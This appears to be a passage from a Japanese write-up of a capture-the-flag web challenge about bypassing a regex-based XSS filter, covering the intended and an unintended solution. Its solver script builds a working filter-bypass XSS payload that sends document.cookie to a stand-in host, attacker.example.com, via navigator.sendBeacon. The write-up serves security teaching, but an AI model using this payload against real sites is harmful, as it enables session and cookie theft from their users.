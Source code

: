 ```javascript title="web/index.js"
    }

    if (/script|src|on|html|data|&/i.test(html)) {
      res.type("text").send(`XSS Detected: ${html}`);
    } else {
      res.type("html").send(html);
    }
  })
  .listen(3000);
```

しかし、入力文字列が`/script|src|on|html|data|&/i`の正規表現にマッチした場合はWAFに弾かれるようになっており、これをバイパスする必要があります。

### 想定解法

まずは、既存のXSSペイロードで攻撃が刺さりそうなものがないか探してみましょう。「XSS payload」等で色々なサイトがヒットしますが、情報の網羅性や動作するブラウザの表示などが便利なので、以下のサイトを参照するのがおすすめです:

- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    - Cross-Site Scripting (XSS) Cheat Sheet - 2024 Edition | Web Security Academy

![](./img/minimal-waf-02.png)

`<embed>`の`code`属性が使えそうです。ただし、ここままだと`html`部分等がWAFに弾かれてしまうため、タブ文字を使ったり、パーセントエンコーディングをしたり、`type=text/xml`を使ったりして回避しましょう。

### 非想定解法

想定解法は既存のXSSペイロードを応用する問題でしたが、参加者のwriteupによればブラウザのキャッシュ機構を悪用して、`Sec-Fetch-*`の判定箇所をバイパスする解法もあったようです。

- 参考: https://alpacahack.com/ctfs/round-7/writeups

※ `<embed>`の`code`属性でURLを指定したときに対象のレスポンスのContent-TypeによってXSSが刺さるかどうかが変わるため、`Sec-Fetch-*`の判定部分は問題成立のための処置でした。そのため問題の本質部分ではなかったのですが、これによって別の解法が生まれていておもしろいです。

### ソルバ

```javascript
const CONNECTBACK_URL = "https://attacker.example.com";

const innerHtml = `<script>navigator.sendBeacon("${CONNECTBACK_URL}", document.cookie)</script>`;
const encode = (s) => [...s].map((c) => "%" + c.codePointAt(0).toString(16).padStart(2, "0")).join("");
const outerHtml = `<embed code="/view?h\ttml=${encode(innerHtml)}" type=text/xml>`;

console.log(`http://localhost:3000/view?html=${encodeURIComponent(outerHtml)}`)
// http://localhost:3000/view?html=%3Cembed%20code%3D%22%2Fview%3Fh%09tml%3D%253c%2573%2563%2572%2569%2570%2574%253e%256e%2561%2576%2569%2567%2561%2574%256f%2572%252e%2573%2565%256e%2564%2542%2565%2561%2563%256f%256e%2528%2522%2568%2574%2574%2570%2573%253a%252f%252f%2561%2574%2574%2561%2563%256b%2565%2572%252e%2565%2578%2561%256d%2570%256c%2565%252e%2563%256f%256d%2522%252c%2520%2564%256f%2563%2575%256d%2565%256e%2574%252e%2563%256f%256f%256b%2569%2565%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e%22%20type%3Dtext%2Fxml%3E
```
